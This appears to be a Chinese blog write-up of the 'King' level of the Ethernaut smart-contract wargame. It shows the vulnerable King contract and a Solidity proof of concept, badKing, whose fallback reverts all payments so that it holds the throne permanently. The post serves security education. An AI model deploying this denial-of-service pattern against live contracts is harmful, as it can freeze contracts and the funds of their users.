 ```yaml
---
title: '合约ddos-1'
date: 2022-12-10 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第九关king  思路与POC

##### 目标: 取得king的位置并想办法不让人抢走

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
  //部署者为第一个king
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    //将最新数量的token转给上一位king
    payable(king).transfer(msg.value);
    //刷新king身份和最新价格
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

##### poc思路:point_right:：其实很简单,只需要让转账失败即可 => ( payable(king).transfer(msg.value);) =>revert

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract badKing { 
      
    
     //特定接收转账函数,默认接收转账函数是receive
     function _receive() payable public {

     }
     //转账到King合约 参与游戏
     function getking(address payable addr) public returns(bool){
      
        (bool success,) = addr.call{value: address(this).balance}("");
        return success;
     }
  //但是不让King合约转账到此合约
     fallback() external payable  {
        revert("don't take my site");
    }
}
```

